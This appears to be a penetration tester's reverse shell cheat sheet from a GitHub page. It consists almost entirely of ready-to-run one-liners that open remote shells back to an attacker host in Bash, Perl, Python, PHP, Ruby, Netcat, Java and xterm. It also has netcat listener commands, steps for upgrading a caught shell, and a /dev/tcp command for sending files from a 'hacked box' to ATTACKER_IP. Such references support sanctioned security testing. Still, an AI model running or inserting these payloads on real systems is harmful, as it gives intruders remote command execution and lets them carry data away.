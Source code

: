 ```yaml
---
layout: attack
title: Benji's reverse shell cheat sheet
---
```


<p align="center">
<img width="500" src="/images/reverse-shell.png">
</p>

## Listener for a Reverse Shell

First at all start a listener on your machine

```bash
nc -lvnp <PORT e.g. 9001, 8080>
```

If you've tough luck and have to run you listener on a windows machine try this [mini_reverse_shell_listener.ps1](https://gist.github.com/BenjiTrapp/6a2c130746c8ed0034ded80317dbe8c7)

## Dropping a Reverse Shell

Source: [https://pentestmonkey.net/](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

### Bash

Some versions of [bash can send you a reverse shell](http://www.gnucitizen.org/blog/reverse-shell-with-bash/) (this was tested on Ubuntu 10.10):

```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

Alternatives for Bash shell:

```bash
exec /bin/bash 0&0 2>&0
```

Or:

```bash
0<&196;exec 196<>/dev/tcp/attackerip/4444; sh <&196 >&196 2>&196
```

Or:

```bash
exec 5<>/dev/tcp/attackerip/4444
cat <&5 | while read line; do $line 2>&5 >&5; done  # or:
while read line 0<&5; do $line 2>&5 >&5; done
```

Variant without usage of additional tools:

```bash
# Run on your machine
nc -l -p 8080 -vvv

# Run on target machine
exec 5<>/dev/tcp/evil.com/8080
cat <&5 | while read line; do $line 2>&5 >&5; done
```

 This technique comes handy in many situations and it leaves very small footprint on the targeted system.

Source: [gnucitizen.org](https://www.gnucitizen.org/blog/reverse-shell-with-bash/)

### PERL

Here’s a shorter, feature-free version of the [perl-reverse-shell](http://pentestmonkey.net/tools/web-shells/perl-reverse-shell):

```perl
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

There’s also an [alternative PERL revere shell here](http://www.plenz.com/reverseshell).

### Python

This was tested under Linux / Python 2.7:

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### PHP

This code assumes that the TCP connection uses file descriptor 3.  This worked on my test system.  If it doesn’t work, try 4, 5, 6…

```php
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

If you want a .php file to upload, see the more fateful and robust [php-reverse-shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell).

### Ruby

```ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### Netcat

Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option.

```bash
nc -e /bin/sh 10.0.0.1 1234
```

If you have the wrong version of netcat installed, [Jeff Price points out here](http://www.gnucitizen.org/blog/reverse-shell-with-bash/#comment-127498) that you might still be able to get your reverse shell back like this:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

### Java

```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

[Untested submission from anonymous reader]

### xterm

One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.

```bash
xterm -display 10.0.0.1:1
```

To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):

```bash
Xnest :1
```

You’ll need to authorise the target to connect to you (command also run on your host):

```bash
xhost +targetip
```

#### Further Reading

Also check out [Bernardo’s Reverse Shell One-Liners](http://bernardodamele.blogspot.com/2011/09/reverse-shells-one-liners.html).  He has some alternative approaches and doesn’t rely on /bin/sh for his Ruby reverse shell.

There’s a [reverse shell written in gawk over here](http://www.gnucitizen.org/blog/reverse-shell-with-bash/#comment-122387).  Gawk is not something that I’ve ever used myself.  However, it seems to get installed by default quite often, so is exactly the sort of language pentester might want to use for reverse shells.

## Upgrading your Reverse Shell

`python -c'import pty; pty.spawn("/bin/bash")'`

Background Session with `ctrl + z`

`stty raw -echo`

`stty -a`

get row & col

`stty rows X columns Y`

Set rows and cols

Foreground Session again

`fg #jobnumber`

`export XTERM=xterm-color`

enable clear

## Send file from machine to listener

Hacked box/machine:

```bash
cat <FILE> > /dev/tcp/<ATTACKER_IP>/<ATTACKER_PORT>
```

Your machine:

```bash
ncat -lvnp <ATTACKER_PORT> > <FILE>
```
